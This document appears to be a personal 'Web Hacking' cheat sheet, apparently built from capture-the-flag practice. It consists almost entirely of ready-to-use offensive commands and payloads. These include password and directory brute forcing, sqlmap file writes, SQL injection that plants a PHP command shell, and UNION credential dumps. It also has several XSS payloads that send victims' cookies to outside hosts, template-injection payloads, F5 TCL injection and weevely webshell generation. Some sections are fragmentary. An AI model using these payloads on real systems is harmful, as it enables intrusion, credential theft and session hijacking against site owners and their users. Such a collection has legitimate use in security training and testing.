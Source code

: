 # Web Hacking
======

## Directory Busting
------
#### Gobuster
gobuster dir -u <ip> -w /usr/share/dirb/wordlists/big.txt
#### Dirbuster
dirb http://target/directory/ /usr/share/dirb/wordlists/common.txt
#### Find Parameters Wordlists
find . | grep -i param
#### Bust Parameter Names
wfuzz --hw 0 -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt http://target.com/shell.php?FUZZ=id
#### Wfuzz Headers Through Proxy
wfuzz -u http://example.com/admin.php -H FUZZ:127.0.0.1 -w /usr/share/headers.txt -p 127.0.0.1:8080:HTTP
#### Wfuzz Multiple Parameters
wfuzz --hh 19 -u "http://10.10.36.35:8081/auth?login=FUZZ&password=FUZ2Z" -z file,users.txt -z file,/usr/share/wordlists/rockyou.txt
#### Wfuzz Subdomain Enumeration
wfuzz --hl 107 -u http://10.10.116.180 -H "Host: FUZZ.cmess.thm" -w /usr/share/wordlists/commonspeak2-subdomains.txt
#### ffuf with Headers
ffuf -w ../wordlists/common.txt -H "Cookie: token=foo; ctfchallenge=bar" -u http://www.vulnbegin.co.uk/cpadmin/FUZZ
#### ffuf to brute password
ffuf -w ../wordlists/10-million-password-list-top-100.txt -X POST -d "username=admin&password=FUZZ" -H "Cookie: ctfchallenge=cookie" -H "Content-Type: application/x-www-form-urlencoded" -u http://www.vulnbegin.co.uk/cpadmin/login -mc all -fc 200

## Local File Inclusion
------
#### List of Windows Files
<a href="http://pwnwiki.io/?_escaped_fragment_=presence/windows/blind.md#!presence/windows/blind.md">Windows Blind Files</a>

## SQL Injection
------
#### Basic sqlmap
sqlmap -u <target-url>
#### sqlmap maximum risk & specify DBMS
sqlmap -u <target-url> --DBMS=MSSQL 
#### Specific sqlmap
sqlmap -u <url> --data 'param1=foo&param2=bar' --cookie 'MYCOOKEID=foobar; ANOTHERCOOKIE=foobar2' -p param1 -D <database-name> --file-write=file.php --file-dest=/var/www/wp-content/uploads/2020/05/file.php
#### MySQL (Inject malicious PHP code into file)
SELECT '<?php passthru($_GET[cmd])?>' INTO OUTFILE '/var/www/cmd.php'
#### Sqlite (Into Outfile equivalent)
```
ATTACH DATABASE '/home/devnull/public_html/test.php' as pwn;
	CREATE TABLE pwn.shell (code TEXT);
```
#### Multiple Columns in a Single Column
' UNION SELECT username || '~' || password FROM users--
#### Allow login for user externally


## Odds & Ends
------
#### FireFox Browse Nonstandard Ports
about:config -- network.security.ports.banned.override (String <port-num>)
#### Webdav
sudo mount -t davfs http://<target-server>:<port> /mnt/webdav

## Wordpress
------
#### Post-Exploitation
Database credentials located in wp-config.php (cat wp-config.php | grep DB_)
#### Wordpress Scan
wpscan --url <domain>  -e ap,at,u,cb,dbe --password-attack 

## XSS
------
#### SVG - No spaces
<svg/OnLoad="`${prompt``}`">
#### Cookie Stealing
<script>document.write('<img src="https://www.hooperlabs.xyz/cookie?' + document.cookie + '">')</script>
#### Cookie Stealing
<iframe src=http://10.2.188.2 onload="this.src='http://10.2.188.2?' + document.cookie">
#### Cookie Stealing
<script>new Image().src="http://10.1.1.1/?cookie="+document.cookie;</script>
#### XSS Web Request
http://challenge.acictf.com:61470/search?search=foo&foobarh00p%3Csvg//onload%3d%22alert(1)%22%3E=%3Cscript%3E
#### SVG - No spaces
<svg/OnLoad="`${prompt``}`">
#### Cookie Stealing
<script>document.write('<img src="https://www.hooperlabs.xyz/cookie?' + document.cookie + '">')</script>
#### Cookie Stealing (with img)
function addImage(){var img = document.createElement('img');img.src = 'https://www.hooperlabs.xyz/' + document.cookie; document.body.appendChild(img);}; addImage();
#### Update Cookie within Browser
javascript:void(document.cookie="myCookie=thisismystolencookie");

## Crypto
------
#### ECB (ref)
<
#### Attacking ECB
+ 1. Determine the key block size.  Increment the PT by one until the CT changes by X bytes.  Usually 8 bytes or 16 bytes.
+   2. If possible, find an oracle.  That is, something that allows either PT --> CT or CT --> PT to arbitrary inputs
+   


## Cloud
------
#### Domain Hijacking
Have 404s pointing to a S3 bucket?  Take over the subdomain!
#### F5 TCL Injection (Send the following in JSESSIONID that doesn't respond typical JSESSIONID)
+ JSESSIONID=[TCP::respond {Hello ?}]
+ JSESIONID=[TCP::respond [info level 0]]
+ localhost
+  table set -subtable "cache" localhost {TCP::respond owned}


## SSTI
------
#### Jinja2 reads from templates directory
{{config}}

## CSTI
------
#### AngularJS
{{constructor.constructor('alert(123)')()}}
#### Vue
{{{}.toString.constructor('alert(123)')()}}

## Clone Websites
------
#### Download all files (wget)
wget -r -np -k <URL>

## Webshells
------
#### Generate password-protected webshell (weevely)
weevely generate mysecretpassword <path>
#### Interact with weevely webshell
weevely <url> mysecretpassword

## Create an XSS Victim Bot
------
#### PowerShell Bot to Execute JS
+ $ie = New-Object -com InternetExplorer.Application
+  $ie.visible=$true
+  $ie.navigate("http://vulnerable.com")
+  while($ie.ReadyState -ne 4){ start-sleep -m 1000 }
+  $ie.document.getElementsByName("username")[0].value="foo"
+  $ie.document.getElementsByName("password")[0].value="bar"
+  $ie.document.getElementsByClassName("btn")[0].click()
+  $ie.Quit()
+  [System.Runtime.Interopservices.Marshall]::ReleaseComObject($ie)
+  #Note... may need sleep statements

